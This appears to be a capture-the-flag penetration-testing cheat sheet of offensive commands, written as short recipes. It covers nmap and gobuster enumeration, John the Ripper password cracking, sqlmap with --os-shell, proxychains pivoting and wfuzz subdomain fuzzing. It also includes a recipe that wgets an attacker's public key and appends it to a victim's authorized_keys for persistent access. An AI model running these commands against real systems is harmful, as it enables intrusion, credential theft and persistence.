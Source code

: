 Commands for tools used 
---

## nmap

```
scan and show OS
---
nmap <addr> -sV

Don't ping (Firewall)
---
nmap <addr> -Pn

UDP
---
nmap <addr> -sU
```


## Gobuster
for enumerating website paths

```
finding dirs
---
gobuster dir -u <addr> -w /usr/share/wordlist/dirb/common.txt


searching for specific file type + dirs
---
gobuster dir -x php -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt
```


## John the ripper

```

zip2john <file.zip> 2>/dev/null | tee <file.hash>

john <file.hash> --wordlist=/usr/share/wordlists/rockyou.txt --format=<format>

```


## sqlmap

```
sqlmap -u "<url>" --cookie="<key=values>" --os-shell --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" 
```

## cadaver

```
For WebDAV applications
---
cadaver <website>
```

## Proxy chains

```
adding a proxy
---

edit /etc/proxychains4.conf 

add --> http <ip> <port>

$ proxychains ssh user@<ip>
```

## netcat enumeration

```
finding open ports internally
---
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v "refused"
```


## tftp

allows putting/getting of files without specifying permission

check for `/etc/default/tftpd-hpa`


## SSH port forwarding

append your pub key to `/home/user/.ssh/authorized_keys`

`ssh -i key -L 8000:127.0.0.1:8000 <user>@<ip>`


## Adding your SSH to the victim
```
Append your public to the victim's ~/.ssh/authorized_keys
---
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

## Getting Crash Data

```
While program is running, kill it with
---
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

## JWT generation

```
pip install pyjwt

>>> import jwt
>>> encoded_jwt = jwt.encode({"some": "payload"}, "secret", algorithm="HS256")
```

## SUBDOMAIN ENUM

```
wfuzz -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.nunchucks.htb"  -u 'https://nunchucks.htb' --hh <word size>
```
